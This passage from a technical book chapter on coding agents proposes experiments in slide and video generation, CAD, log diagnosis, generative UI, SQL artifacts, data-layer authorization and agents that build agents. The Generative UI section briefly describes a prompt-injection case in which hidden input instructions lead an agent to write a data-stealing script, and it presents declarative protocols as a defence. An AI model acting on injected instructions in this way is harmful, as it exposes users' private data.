> **Experiment objective**: Automatically generate high-quality presentations from academic papers, verifying the effectiveness of the Proposer-Reviewer mechanism in content creation quality control.
>
> **Technical approach**: Use the Slidev framework. The Proposer Agent reads the paper PDF, extracts chapter structure, core arguments, and figures, plans the PPT structure, and generates Slidev code page by page. **Key step**: The Reviewer Agent renders each slide and captures a screenshot, then uses a Vision LLM to evaluate the result for text overflow, content crowding, and inappropriate image sizing. The Proposer and Reviewer iterate until the presentation meets the quality standard.
>
> **Acceptance criteria**: Generate 10-20 slides covering the paper's main contributions. Include at least 3 original figures that match the accompanying text. No text overflow in rendering, reasonable layout. Compare context consumption and generation quality between single-agent self-review and a Proposer-Reviewer division of labor.
>

> **Experiment 5-5 ★★: Automatic generation of paper explanation videos**
>
> **Experiment objective**: Extend PPT generation capabilities, combining visual and auditory channels to achieve automatic generation of explanation videos.
>
> **Technical approach**: Building on the presentation workflow from Experiment 5-4, the Agent also generates conversational narration for each slide—guiding the viewer rather than repeating the slide text—uses TTS (text-to-speech) to synthesize the audio, and combines the slide images and audio with FFmpeg to produce the final video.
>
> **Acceptance criteria**: Produce a video lasting 5 to 15 minutes in which each slide's display time precisely matches its narration and the narration corresponds to the visual elements.
>
>
> 
>
>

**Video Editing Agent.**

Editing video through a general-purpose Computer Use interface presents a fundamental obstacle: video-editing GUIs are extraordinarily complex — dense with timelines, layers, and effects panels. An Agent must locate and manipulate these elements with a mouse and keyboard, which requires exact coordinates that models struggle to produce.

Reframing video editing as API calls and code generation cuts the complexity dramatically. Many professional software tools (such as Blender — an open-source 3D creation and video compositing tool that supports Python scripting; FFmpeg — the command-line Swiss Army knife for audio/video processing) provide programmatic API interfaces that expose core functionality in a structured, composable manner. For example, the Blender Python API allows precise control over operations such as importing, trimming, arranging, adding transition effects, and mixing audio for video clips, with each operation corresponding to a clear function call. For an Agent, converting natural language requirements into API calls is far easier than understanding a GUI interface and simulating mouse clicks. Similar to PPT generation, video editing also adopts the Proposer-Reviewer mechanism — the Proposer Agent generates Blender scripts, the Reviewer Agent renders keyframes and uses a Vision LLM to check the effect, providing feedback for modification.

> **Experiment 5-6 ★★: API-based intelligent video editing**
>
> **Experiment objective**: Verify the Agent's ability to perform video editing by generating Blender Python API code, and evaluate the role of the vision-feedback-based Proposer-Reviewer mechanism in multimedia content processing.
>
> **Core challenge**: Understanding the user's natural language editing requirements and converting them into precise sequences of API calls, handling various editing operations (trimming, merging, subtitles, audio track mixing, visual effects), and ensuring the generated Python script executes correctly. After the Proposer Agent writes the code, it cannot directly judge the video effect; it must rely on the Reviewer Agent to render and use a Vision LLM to check keyframes.
>
> **Technical approach**: The user provides video material (e.g., raw footage containing scenes like surfing, hiking, skiing) and describes requirements in natural language (e.g., "Cut out the surfing part"). The Proposer Agent uses a video analysis sub-agent with a **two-step localization strategy**:
>
> **Step 1, coarse localization**: Call the sub-agent with the video path, a 10-second frame-sampling interval, and the target question. The sub-agent uses ffmpeg to capture frames at that interval, sends the screenshots and question to a Vision LLM, and returns the scene interval (e.g., "Surfing is between 40-110 seconds").
>
> **Step 2, fine-grained localization**: Call the sub-agent again over a narrower range and sample one frame per second to locate the boundaries precisely.
>
> Encapsulating video analysis as a sub-agent prevents a large number of screenshots from occupying the main Agent's context. After localization, the Proposer generates the Blender API script. The Reviewer Agent performs a quick preview, checks keyframes, and provides feedback for modification, iterating until the standard is met before full rendering.
>
> **Acceptance criteria**: The Agent can accurately identify different scenes in the video and correctly generate editing scripts based on natural language instructions. The start and end points are accurate (error within 3 seconds). If the instructions include special effects requirements (slow motion, transitions, subtitles), the generated video correctly applies the effects. The Reviewer Agent can detect obvious errors (missing key content, including irrelevant segments) and trigger corrections. The final output video file has the correct format and meets expected quality.
>

**3D and Industrial Parts: The Boundary Between Code Generation and Generative Models.**

When it comes to "generating a thing," the Agent faces two routes: one is writing code to construct it precisely (CadQuery, OpenSCAD, Blender API); the other is calling a 3D generative model directly (text/image-to-3D models like Hunyuan 3D, which belong to the same diffusion family as text-to-image models). Many people wrestle with the question: when should you use code generation, and when should you use an image/3D generative model?

**First, check whether the artifact has a compact, precise description.** Industrial parts naturally have one. A flange is fully defined by five or six parameters—outer diameter, thickness, bolt-circle diameter, hole diameter, hole count—and code is a **lossless** expression of it. A potted plant, a Taihu rock, or a human face is different—they have countless details, and their **intrinsic complexity is nearly unbounded**.

**Second, check the precision requirements and verifiability.** Every dimension of a part is a hard constraint—hole diameter 5mm, tolerance ±0.05mm; off by a hair and it is scrap. A code-generated part can be verified programmatically: load the mesh, measure the outer diameter and hole positions, and check them item by item against the specification. A part produced by a 3D generative model cannot be checked against the specification directly.

The two routes differ in one more practical way: **representation and editability**. Manufacturing workflows demand B-rep (boundary representation) parametric solids—the STEP file stores the feature tree and dimensional parameters and can drive CNC machining directly. What a 3D generative model spits out is a triangle mesh: curved surfaces are approximated by countless tiny facets and look pitted under magnification. The difference becomes clear when the client says "change the mounting holes from M5 to M6": on the code route, you change one number and rerun, and every other dimension stays exactly the same; on the generative-model route, the only option is to regenerate the whole thing—whether the other dimensions drift is a matter of luck.

So choosing a route is itself a decision the Agent must make: weigh the artifact's intrinsic complexity and precision requirements, and assign the task to code generation or to a 3D generative model. In real systems the two routes can also be mixed—generate the geometry parametrically with code and hand the surface texture to a generative model, taking the best of each.

> **Experiment 5-7 ★★: Two Generation Routes for the Same Part—Code vs. Generative Model**
>
> **Experiment objective**: Take the same mechanical part with dimensional specifications and compare the code-generation and 3D-generative-model routes on dimensional accuracy, editability, and manufacturability, verifying the "choose the route by intrinsic complexity and precision requirements" decision framework.
>
> **Technical approach**: A natural-language requirement with an explicit specification (e.g., "a flange, outer diameter 80mm, thickness 10mm, 4 evenly spaced M5 mounting holes on a 60mm bolt circle"). **Route A**: the Agent writes CadQuery (or OpenSCAD) code to construct the part and exports STEP and STL. **Route B**: hand the same specification to a 3D generative model (such as Hunyuan 3D) to obtain a triangle mesh. **Programmatic verification**: measure the key dimensions of both routes' outputs (outer diameter, thickness, hole positions, hole diameters) against the specification, and check the flatness of the mounting face.
>
> Then issue the change request "change the mounting holes from M5 to M6" and record the modification cost of each route—on the code route, change one parameter and rerun; on the generative-model route, the only option is to regenerate the whole thing, with no guarantee that the other dimensions stay unchanged.
>
> **Control group**: generate a potted plant, and the merits of the two routes are exactly reversed—on the code route, even with procedural noise added, the result is stiff and lifeless; on the generative-model route, it is natural and vivid.

### Code as a System Adapter

The code in the previous sections mostly produces "human-facing" things — reports, slides, interfaces. The code in this section points in another direction: **connecting machine to machine**. In real systems, the external services an Agent must talk to often have no ready-made SDK, and their interfaces are rarely tidy — documentation may be missing, response formats may be nonstandard, and fields may drift across versions. The Agent need not wait for a prebuilt adapter. It can read the API documentation or inspect a few real responses, then generate the adapter on demand: construct an HTTP client, assemble authentication headers, parse the nonstandard response structure, and translate the upstream data model into a shape the downstream can consume. Code here is "universal glue" for connecting arbitrary systems — wherever there is a gap, a piece of glue is generated on demand to fill it. This is the heart of the meta-capability's "system interface" direction. The adaptive log parsing developed below is this capability made concrete in the observability setting: facing log formats that never stop evolving, the Agent likewise adapts by generating parsing code on the fly.

This "universal glue" can also extend to **systems with no API at all**: when an external system only exposes a graphical interface, the Agent can first operate the interface through Computer Use (detailed in Chapter 6), then solidify the successful operation sequence into an RPA tool in code — the next time the same task comes up, it simply runs the code, fast and stable, with no expensive visual reasoning required. RPA, you might say, is the system adapter taken to its extreme: an adapter for systems with no programmatic interface. This "workflow recording and solidification" mechanism is developed in Chapter 9.

Data processing is among the most common — and most tiresome — tasks in software systems. The root cause is that data formats are diverse and never stand still. A single system may change its formats many times as it evolves — new fields, restructured nesting, new types. Hand-writing a parser for every format carries a punishing maintenance cost: each change means updating the parsing logic, testing compatibility, and shipping a new version.

Code generation offers a different approach entirely: when the Agent meets a new format, it generates parsing code on the fly from sample data, so the system tracks the evolution of formats automatically, with no human intervention.

**Agent Log Parsing and Visualization.**

The observability of Agent systems depends on the visualization of execution flows. A complex Agent task may involve hundreds of steps, including multiple LLM calls, dozens of tool executions, and interactions between multiple sub-agents. Visualizing this data faces multiple challenges: different tools return data in different structures, and formats evolve with system iterations; a complete trajectory may contain hundreds of thousands of characters, requiring a balance between overview and detail.

Code generation offers an elegant solution: establishing an auto-repair feedback loop. When the frontend encounters an unparseable log format, instead of displaying an error, it automatically reports the failure information (raw log sample, detailed error) to the Agent. The Agent analyzes the sample data structure and generates frontend code that can correctly parse it. The code is first tested automatically in a virtual browser to verify parsing correctness, while a Vision LLM assesses the visualization. If it passes both checks, it is deployed to the frontend as a hot update.

> **Experiment 5-8 ★★★: Adaptive Log Parsing System**
>
> **Experiment Goal**: Build a self-evolving Agent log visualization system.
>
> **Technical Approach**: The initial system only supports basic formats. Frontend detects parsing failure → Reports to Agent → Generates parsing code → Virtual browser testing → Hot update deployment. The entire process is automated.
>
> **Acceptance Criteria**: Automatically detect failures and trigger learning, generate code that passes automated tests, correctly parse new formats after the hot update.
>

**Automatic Analysis and Problem Diagnosis of Agent Execution Logs.**

Agents in production generate a large volume of trajectory logs (recording the complete process of each task). However, identifying problems, locating root causes, and constructing test cases from these logs is a high-cost endeavor. Failures may emerge from interactions among multiple modules, making root causes difficult to isolate. They may also be expensive to reproduce because test environments rarely capture the full complexity of production. Finally, bugs often recur when fixes are not covered by systematic regression tests.

Code generation provides an automated path for diagnosis. The Agent can read production logs, combine them with architecture documents and PRDs (Product Requirement Documents) to automatically determine whether the execution flow meets expectations, and pinpoint the problematic components and modules. Based on the analysis results, it generates structured problem reports (priority, module, description, improvement suggestions) and regression test cases—the test cases reference the problem trajectory ID and key interaction rounds, and the test framework automatically replays them to verify that the fixed system produces correct behavior for the same input. Finally, the Agent connects to GitHub via MCP to create an Issue and assign it to the relevant developer, completing the full automation from problem discovery to task assignment.

> **Experiment 5-9 ★★★: Intelligent Diagnostic System for Production Logs**
>
> **Experiment Goal**: Automatically discover problems from production trajectories, generate test cases, and create work items.
>
> **Technical Approach**: The Agent analyzes a set of production trajectories alongside system architecture documents and PRDs to identify problem patterns and the modules involved. It then generates structured problem reports containing the priority, module, description, and recommended improvements. It also generates regression tests tied to trajectory IDs and interaction rounds; the test framework replays these cases and verifies the results. Finally, the Agent creates GitHub issues through MCP.
>
>
> 
>
>

### Code as Generative UI

Traditional Agent systems interact with users mainly through plain-text dialogue. But text is a linear, one-dimensional medium, and in many scenarios an inefficient one. Collecting structured information requires a lengthy back-and-forth; complex data relationships are difficult to express in plain text; and when users must choose among options, a text list is far less intuitive than a visual interface.

Code generation offers a way past these limitations: Agents can dynamically generate forms, interactive charts, and even complete web applications, turning static text dialogue into rich, multimodal interaction. This pattern, where the Agent dynamically generates the interface, is called **Generative UI**.

**A2UI-like Protocols: Standardizing Generative UI.**

Allowing Agents to generate HTML and JavaScript that the client renders and executes directly creates a fundamental security risk: the generated code may be malicious. For example, if someone deliberately hides an instruction in the input, the Agent could be manipulated by prompt injection, unknowingly generating a script that stealthily steals user data. Here the causal chain matters: **prompt injection**—malicious instructions mixed into the Agent's input—is the cause, while executing the resulting malicious script in the browser and stealing data resembles traditional Web XSS (Cross-Site Scripting); the attack as a whole should not simply be labeled XSS. Declarative interface protocols such as A2UI (Agent-to-User Interface) offer a safer approach. Instead of generating executable code directly, the Agent outputs only a JSON "UI description manifest," such as "Display a table with three rows and two columns titled 'Sales Data.'" The client then renders the interface using its own predefined, safe components. This is like a restaurant menu: the customer (Agent) can order only dishes on the menu (predefined components), not enter the kitchen and prepare arbitrary dishes (execute arbitrary code). One common point of confusion is AG-UI (Agent-User Interaction, proposed by CopilotKit). Despite the similar name, it is not a UI description language but an **event and transport protocol** that streams the Agent's execution state—messages, tool calls, and state patches—to the frontend; it can also carry UI payloads such as A2UI manifests. The two are complementary and should not be grouped as examples of the same declarative-interface category.

The core design principle of such protocols is **security-first**: the client maintains a trusted component catalog (e.g., Card, Button, TextField, Table), and if the catalog and renderer are correctly enforced, the Agent may request only cataloged components and cannot inject arbitrary code. The client renders using its own native components, not by executing arbitrary HTML generated by the Agent. These protocols typically also support **cross-platform rendering** (the same description renders in React, Flutter, and native apps) and **incremental generation** (for example, by streaming JSONL that the client renders as it arrives).

Of course, the declarative approach is suitable for standardized interaction scenarios (forms, tables, cards), while for highly customized needs (e.g., custom visualizations, game interfaces), direct code generation remains the more flexible choice. Below are specific applications of both patterns.

**Delivering Results with HTML: Replacing Markdown Reports.** Generative UI is not only used during interaction but is also changing the form of the Agent's final **deliverable**. Traditionally, an Agent finishes a task and hands over a Markdown report; but paging through linearly arranged Markdown is not a pleasant way to read. As Agents get better at generating frontend code, practice is shifting toward having them produce HTML directly. Compared to Markdown, HTML deliverables have several distinct advantages. First, **interactive demonstrations** let users see how the system works in an interactive form, often making it easier to understand at a glance than through lengthy textual descriptions. Second, **better data visualization** lets users explore data through charts and interactive controls for browsing, filtering, and drilling down into details. Third, **continuously improvable deliverables** allow the Agent to update and extend an HTML website throughout the task instead of producing a static artifact only at the end.

Take the author's own experience writing research papers as an example: for each research project, the author maintains an interactive website[^ch5-4]. It serves as both the final deliverable and a living document throughout the research process—the author has the Agent continuously update it as experiments progress. This website serves at least three purposes. First, **experiment data traceability**: the specific data for every experiment, the prompts used, and the LLM's raw responses can all be inspected item by item on the site; laying everything out in the open makes it easier to spot problems in data construction, format, and distribution, and to notice systematic biases in the LLM's responses or the judge's scoring. Second, **training metric monitoring**: the site displays training curves directly, making it easy to monitor the model's **internal health metrics** and determine whether the training process remains healthy. The term borrows from medicine: these are internal signals of whether the training process itself is healthy—training and validation loss, gradient norm, learning rate, the model's perplexity when emitting tokens (a measure of its "confidence" in its own output), and in reinforcement learning, reward, KL divergence, and policy entropy. They differ from final outcome metrics like task accuracy: just as physiological readings in a check-up stand apart from a person's outward performance, internal health metrics often surface problems—non-converging loss, exploding gradients, training collapse—much earlier. Third, **demonstrating system operation**: visualizations reveal how the entire system works, allowing readers to grasp the structure of the AI-built system at a glance.

[^ch5-4]: The author's research project website can be found at https://01.me/research/, where each project has a continuously updated interactive website.

**Clarifying User Intent.**

When requirements are vague or incomplete, the Agent must ask clarifying questions to gather the missing information. Products like OpenAI Deep Research typically do this through text-based Q&A, but that approach has clear limits: it is inefficient because each question consumes a dialogue turn, so ten clarification points may require ten rounds; and it is poor at expressing dependencies among questions—for example, a travel destination constrains the available modes of transport—which plain text struggles to present clearly.

Through code generation, the Agent can create structured interactive interfaces to replace text-based Q&A. Figure 5-8 illustrates the dynamic form generation process, showing how the Agent transforms clarification questions into a structured interface that can be filled out in one go. The Agent generates an HTML form containing various input controls—text boxes for open-ended information, dropdown menus for predefined options, checkboxes for multiple selections, and date pickers for simplified time input. More advanced versions can use JavaScript to create cascading forms that show or hide follow-up questions and update available options in response to the user's selections. The user fills out the entire form at once, eliminating multiple dialogue rounds, and can clearly see all required information and the logical relationships between questions.


> **Experiment 5-10 ★★: Intent Clarification System with Dynamic Forms**
>
> **Experiment Goal**: Verify the Agent's ability to clarify user intent by dynamically generating HTML forms.
>
> **Technical Approach**: The Agent analyzes the user's request, identifies clarification points, and generates form code with cascading logic. The frontend renders it, the user submits it once, and the Agent parses the JSON data to continue the task.
>
> **Acceptance Criteria**: User inputs "I want to book a flight to Beijing." The Agent generates a form with the following fields: departure city (text input), departure date (date picker), trip type (radio buttons for one-way or round-trip), and return date (displayed only when round-trip is selected). The user submits all information in one go.
>

**Generating SQL Queries.**

Database querying is a scenario where code generation can significantly enhance the interaction experience. Traditional database access relies on GUI tools or handwritten SQL; the former is cumbersome to operate, and the latter requires the user to have specialized knowledge. An Agent can translate natural language into SQL, but there is a key design choice: should the Agent execute the query and describe the results in natural language, or should it generate the SQL as an artifact for the system to execute and the frontend to display?

The first approach looks more "intelligent" but is grossly inefficient—a query against a large table may return thousands of rows. Having the LLM read all that and describe it in prose burns tokens and time, and worse, LLMs are notoriously error-prone when "transcribing" data. A better approach is the **Artifact pattern**. Figure 5-9 shows the workflow of an SQL query Agent: rather than reading the data itself, the Agent generates an SQL query and passes it to the system as a standalone **executable artifact**. The system executes the query against the database and renders the results in a table for the user. The data therefore flows directly from the database to the interface without passing through the LLM; the LLM writes the query but never has to read and restate thousands of rows. This approach is both faster and more accurate.

Generated SQL and visualization code must not be executed directly. The execution layer should use read-only database credentials, parse the SQL, allow only approved `SELECT` statements, and reject DDL, DML, and multi-statement queries. User-provided values should be bound as server-side parameters, with limits on query time, returned rows, accessible tables, and date ranges. Visualization code should run in a sandbox isolated from the network and filesystem and should produce only an approved result format. The Artifact pattern shortens the data path; it does not replace authorization checks or execution isolation.


Going further, the Agent can generate two artifacts that form a pipeline: an SQL query and visualization code, such as code for a bar chart. The frontend passes the SQL results directly to the visualization code. The LLM generates the code but does not participate in the data path—this is the essence of code generation as an interface.

> **Experiment 5-11 ★★: Natural Language Interaction ERP Agent**
>
> ERP (Enterprise Resource Planning) software is a critical system for businesses, typically using a GUI interface where complex operations require multiple mouse clicks. An AI Agent can translate users' natural-language requests into SQL queries, enabling automated database access.
>
> Requirements: Set up a PostgreSQL database containing two tables: (1) Employee table, including employee ID, name, department, level, hire date, resignation date (NULL means currently employed); (2) Salary table, including employee ID, pay date, salary (one record per month). The Agent automatically answers:
>
> 1. What is the average employee tenure?
> 2. How many active employees are in each department?
> 3. Which department has the highest average employee level?
> 4. How many new employees joined each department this year and last year?
> 5. What was the average salary for department A from March of the year before last to May of last year?
> 6. Which department had a higher average salary last year, A or B?
> 7. What is the average salary for employees at each level this year?
> 8. What is the average salary in the last month for employees with tenure of less than one year, one to two years, and two to three years?
> 9. Which 10 employees had the largest salary increase from last year to this year?
> 10. Are there any cases of unpaid wages (employees who were employed during a given month but have no salary record for that month)?
>

**Dynamically Generating Software.**

The ultimate application of code generation is letting the Agent create software entirely dynamically, from scratch. Anthropic's "Imagine with Claude" marks out the frontier: the user makes a request, Claude generates the frontend interface and interaction logic in real time, the user interacts with the generated software, and Claude modifies the code to produce a new interface showing the results. The user watches an application come into being from nothing and keep evolving.

Fully dynamic generation, however, is costly and slow—better suited to demonstrations of what is possible than to production use. A more pragmatic approach is to **customize an existing framework**. This "semi-custom" model preserves the stability of the base software while exposing selected aspects to user control. The user can say "make the button blue," "add a shortcut menu to the sidebar," or "switch to a more readable font"; the Agent updates the frontend code, and HMR (Hot Module Replacement—which updates affected modules without a full-page reload and usually preserves application state) applies the changes immediately. A one-size-fits-all product becomes an experience tailored to each user.

> **Experiment 5-12 ★★: Conversational Interface Customization System**
>
> **Experiment Goal**: Enable users to customize the software interface instantly through natural-language dialogue, and evaluate whether code generation with hot reload can effectively provide personalized user experiences.
>
> **Technical Approach**: Build a basic chatbot application (React frontend and FastAPI backend), and run both components in development mode with hot reload enabled (React HMR and FastAPI reload). Users propose UI customization requirements (colors, fonts, layout, component positions, etc.) during the conversation. The Agent autonomously modifies the code. The hot-reload mechanism automatically detects file changes, the frontend recompiles and refreshes, and the user sees the interface changes in real time. The system supports multiple rounds of iterative customization.
>

Dynamic software changes the traditional security premise along with its flexibility. In the past, application business code was developed, reviewed, tested, and deployed, then remained relatively stable for a period of time. Authorization checks therefore usually lived in the application layer: business code first decided whether the current user could read or modify a record, and only then sent the operation to the database. When interfaces, workflows, and even data-access code can be generated or rewritten by an Agent at any time, that layer is no longer stable. Newly generated code may omit a subtle authorization check, expose a field that was previously hidden, or bypass an existing check through another call path. Whether the cause is an ordinary generation error or dangerous code produced after prompt injection, the result is the same: the permission boundary that business code was supposed to maintain may be silently broken.

The security goal for dynamic software therefore cannot be to “make sure the AI writes every authorization check correctly.” It should be that **permission constraints remain impossible to bypass even when the AI writes incorrect code**. If authorization checks live inside the dynamically generated business logic, they share the same trust domain as the code they are meant to constrain. Prompts, tests, and code review reduce the error rate, but they cannot exhaustively cover every execution path introduced by future generations and cannot serve as the final security boundary.

A more robust architecture **moves the trust boundary down to the data layer**. Dynamically generated application code can handle presentation, workflows, and business orchestration, while a stable, human-reviewed mechanism enforces the rules that decide who may do what to which data. Database row-level security can restrict users to records in their own tenant; constraints and validators can reject illegal states; controlled views, stored procedures, or data-access services can expose only approved operations. Every read and write should also carry an **access context** bound by a trusted runtime, containing the user, tenant, role, or Agent identity. Generated code receives only this scoped identity: it cannot forge the identity or obtain a privileged database credential that bypasses the rules. Even if it omits its own authorization check, the data layer still rejects the unauthorized operation.

Moving authorization downward does not mean putting all business logic in the database. The application layer may still perform pre-checks to provide fast feedback, but the data layer must retain final decision authority. The same rule can improve the experience above and provide a guarantee below. That guarantee also requires every data-access path to pass through the trusted data layer; generated code must not be able to connect directly around it. The result is an application whose upper layer can keep changing while its non-negotiable permission constraints remain in a layer that is not rewritten on every generation. This is the data layer of Chapter 1's three-layer skeleton—the one that is hardest to bypass.

> **Experiment 5-13 ★★★: Permission-Embedded Data Objects for Dynamic Software**
>
> **Experiment Goal**: Build an object store that allows application code to be generated or rewritten dynamically while still enforcing authorization and data integrity at the data layer. Verify that generated code cannot cross the stable data boundary by skipping a state-machine transition, writing an out-of-range value, or reading across tenants.
>
> **Technical Approach**: Provide a Python object-store middleware layer over PostgreSQL. Data types declare their permission rules, access context, validators, object relationships, and reactions; every object read or write passes in turn through the permission and validation pipeline, persistence, referential-integrity checks, and so on.
>
> **Acceptance Criteria**: A valid hiring-pipeline update succeeds; skipping a candidate state transition, writing a salary outside the position range, and reading across tenants are all rejected by the data layer.

### Code Creating Code: Agent Bootstrapping

The previous sections have followed code generation across one domain after another—from mathematical reasoning to document creation to interface customization. Push these capabilities to their limit and a natural question arises: can an Agent use code generation to create another Agent?

First, this section's division of labor with Chapter 9 must be clarified. This section discusses how a Coding Agent uses code to **repair and create Agents of its own kind**—self-repair, self-replication, and on-demand generation of new Agents. Its focus is code generation and system-construction capability, so this process is called **bootstrapping**. Chapter 9 does not explain again how to write this code; instead, it focuses on how evaluated production experience triggers self-modification: selecting knowledge, instructions, programs, or parameters as the update target; generating a candidate version from a stable version; and controlling risk through regression testing, canary releases, and rollback. The two chapters intersect at “modifying code,” but answer different questions.


**Agent Self-Repair: OpenClaw Doctor.**

A crucial prerequisite for Agent bootstrapping is the ability to self-repair. The `doctor` command in OpenClaw embodies this capability—it can automatically detect three types of issues:

- **Configuration anomalies**: Expired OAuth tokens, legacy configuration formats, port conflicts
- **State issues**: Stale session lock files, missing plugin dependencies
- **Service health issues**: Gateway not running, missing sandbox images

It then automatically resolves them through a layered repair strategy: safe fixes (configuration normalization, lock file cleanup) are executed automatically; risky operations (service restarts, forced configuration overwrites) require user confirmation.

Let's not overstate this: high-frequency problems such as expired tokens, stale lock files, and port conflicts have clear detection rules and fixed repair actions, and `doctor` **addresses them first with deterministic checks**, much like a traditional operations script. Agent capability becomes meaningful in the second layer: for harder problems beyond those rules, `doctor` uses an LLM to analyze error logs, interpret configuration files, infer root causes, and produce a targeted repair plan. Deterministic checks resolve common problems reliably, while the LLM covers the long tail; together, the two layers allow `doctor --fix` to resolve a substantial share of common gateway issues automatically. What makes this an "Agent repairing Agent" pattern is that the Agent works not on an external system but on its own runtime environment, elevating self-repair from a system-adapter function to core bootstrapping infrastructure.

**Key Techniques for Making an Agent Write an Agent.**

Creating a high-quality Agent is far harder than generating ordinary application code, because it demands a deep understanding of Agent architecture patterns, best practices, and common pitfalls. Without that domain expertise, even the most powerful code generation models produce Agents with serious architectural flaws. Common flaws include:

1. **Ad hoc context management**: Failing to use the standard context format discussed in Chapter 2, stuffing trajectories as plain text into the context, ignoring KV Cache optimizations from structured messages, and introducing boundary-condition bugs in tool-call loops
2. **Non-standard tool design**: Vague descriptions, missing usage boundary instructions and negative lists, and parameters lacking concrete examples
3. **Outdated technology choices**: A tendency to use the most common but outdated models and APIs from training data. Solution: Maintain a SOTA knowledge base or equip the Agent with search capabilities
4. **Disconnection from the external ecosystem**: Using deprecated APIs, unmaintained libraries, or flawed patterns

The most effective path to solving these problems is not to exhaustively list all rules in the prompt, but to **provide high-quality Agent implementations as reference examples**, guiding the code generation Agent to modify them rather than starting from scratch.

The advantage of example-based generation is plain: the example code itself carries the best practices. An Agent that adapts a validated implementation gets things right more often than one that starts from scratch, because the implementation preserves sound architectural choices without requiring every rule to be spelled out in the prompt.

When an Agent receives a task to develop a new Agent, it should first copy its own code (or other validated, high-quality implementations) and then make targeted modifications: adjust the system prompt to match the new role, replace or add tools to suit new functions, modify business logic while preserving the architectural framework. This "self-replication with adaptive modification" pattern ensures the new Agent inherits core technical advantages while allowing differentiation in specific dimensions—much like gene replication with mutation in biology.

> **Experiment 5-14 ★★★: Develop an Agent That Can Create Agents**
>
> **Experiment Goal**: Build a Coding Agent with metaprogramming capabilities—the ability to write programs that generate or modify other programs—so that it can automatically create new Agent systems from user requirements while adhering to best practices.
>
> **Technical Approach**: Provide the Coding Agent with high-quality Agent implementations as reference examples (the ch5/coding-agent project itself can be used). When tasked with creating a new Agent, the Agent first copies this example code and then makes targeted modifications based on the user's specific needs.
>
> **Acceptance Criteria**: The generated Agent runs successfully and completes basic tasks. Verify that it uses standard message formats and tool-call protocols, currently recommended models and APIs, and correct context and state management across multiple conversation turns. Compare generation from scratch with example-based modification, and confirm that the latter improves quality and efficiency.
>
>
> 
>
>

Agent bootstrapping is the ultimate application of code generation—an Agent that can create Agents achieves the self-replication of intelligence. With that, we have traced the chapter's full arc: from the foundations of the Coding Agent, through the many uses of code generation, to bootstrapping.

## Chapter Summary

This chapter has argued one thing throughout: code is not merely a tool for writing programs—it is the language of an Agent's formalized thinking and precise expression.

The Harness engineering section reached one central conclusion: Coding Agents are mature not because code generation models are exceptionally strong, but because decades of accumulated software engineering infrastructure—test suites, type systems, version control—naturally form a powerful Harness. That conclusion deserves to travel to other Agent scenarios. The section on failure and error recovery offers the flip side of the same theme: an Agent's reliability is determined not by whether the model makes mistakes, but by whether every class of failure has a corresponding detection, recovery, and termination path.

The second part demonstrated the broad value of code generation beyond programming, corresponding to the six dimensions in the main text:

- **Thinking Tool**: Leveraging symbolic computation and constraint solving to compensate for the shortcomings of probabilistic thinking
- **Business Rule Constraints**: Expressing business rules unambiguously and providing a deterministic safety backstop for irreversible operations, where the value of the guarantee far exceeds its implementation cost
- **Multimedia Generation**: Creating multimodal content like PPTs and videos through a Proposer-Reviewer mechanism; the choice between code generation and generative models depends on the artifact's intrinsic complexity and precision requirements
- **System Adapter**: Automatically following format evolution to achieve full automation of log parsing and problem diagnosis
- **Generative UI**: Dynamically creating forms, visualizations, and even complete customizable applications, breaking free from plain text limitations
- **Agent Bootstrapping**: Using code to repair existing Agents and create new ones, ultimately enabling an Agent to create other Agents

The value of code to an Agent comes down to this: it is at once a means of getting tasks done and a mechanism for accumulating knowledge, creating tools, and improving itself—a true "meta-capability."

At this point, we have combined context, knowledge, tools, and coding capabilities into the foundational architecture of a general-purpose Agent, with code generation as its most general meta-capability. Yet the first five chapters still assume that the Agent and the world take turns acting. Chapter 6 fills in the final piece of “Building Agents” by extending the observation and action spaces to asynchronous events, voice, screens, and the physical world; once that piece is in place, Chapter 7 turns to evaluation and continual improvement.

## Thought Questions

1. ★★ Code generation is called an Agent's “meta-capability.” But code execution introduces security risks—Agent-generated code may contain vulnerabilities, enter infinite loops, or exhaust resources. Sandboxing can mitigate some of these risks, but it also limits what the code can do, for example by denying access to the network or file system. How can the optimal balance between security and capability be found?
2. ★★★ Agent bootstrapping—an Agent that can create Agents—enables the “self-reproduction of intelligence.” But every bootstrapping iteration may introduce new biases or errors. Will these errors accumulate across generations? How can degradation in Agent bootstrapping be prevented?
3. ★★ When a code-generation Agent handles log parsing, it can automatically follow format evolution. But if a format change is a bug rather than an intended modification, the Agent's adaptability may instead conceal the problem. How should the Agent distinguish between “a change that requires adaptation” and “an anomaly that requires reporting”?
4. ★★ This chapter repeatedly uses the proposer-reviewer mechanism in PPT generation, video editing, and log visualization. If the Reviewer's aesthetic preferences differ from those of the target user—for example, if the Reviewer considers the information density reasonable but the user finds it too crowded—the feedback loop may converge on the wrong local optimum. How can user-preference feedback be incorporated into the Reviewer loop?
5. ★★ This chapter demonstrates several ways for a Coding Agent to consolidate experience gained through execution and debugging back into the codebase—writing knowledge-base files, updating architecture documentation, maintaining project instruction files, and encoding operational sequences as code. If this experience is further distilled into rules in the system prompt, the rule set will continue to expand over time. How can “garbage collection” be performed on the accumulated rules to identify and remove redundant or outdated entries? Why is a single successful code modification not yet continuous evolution in the sense of Chapter 9?
6. ★ “Teams that are friendly to remote work are often also friendly to AI Agents.” How close is your team or organization to being “AI-ready” in terms of knowledge documentation? What is the greatest obstacle?
7. ★★★ Simon Willison proposed the “Lethal Triad” for Agents—access to private data, exposure to untrusted content, and external communication capability. This chapter adds a fourth element: persistent memory. How would you design a security strategy for a production environment that must handle all four simultaneously?
8. ★★ The Artifact pattern allows an Agent to generate SQL or visualization code for direct execution by the frontend, bypassing the need for the LLM to process large volumes of data. What are the advantages and disadvantages of this division of labor—“the Agent generates code, the system executes code”—compared with the traditional pattern in which the Agent directly provides the answer? Moreover, generated SQL may perform destructive operations, and generated HTML may contain vulnerabilities. How can the system's security be ensured?
9. ★★ Encoding business rules as validations against database ground truth, while using parameter design to guide the model to check policy conditions before making a call, essentially uses code structure to constrain Agent behavior. What are the advantages and limitations of this “code as rules” pattern compared with rules expressed in natural language?
